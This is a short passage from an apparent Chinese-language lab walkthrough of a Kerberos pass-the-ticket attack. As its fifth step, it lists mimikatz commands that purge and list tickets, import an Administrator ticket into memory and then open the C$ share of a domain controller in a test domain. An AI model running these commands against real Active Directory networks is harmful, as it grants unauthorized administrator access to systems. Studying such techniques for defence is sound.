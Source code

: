[![](assets/1705982146-54c420d2478a26db791918a4636dbf81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222600-d592bc84-b79f-1.png)  
Step 5：使用mimikatz将这个票据导入内存中，然后访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```
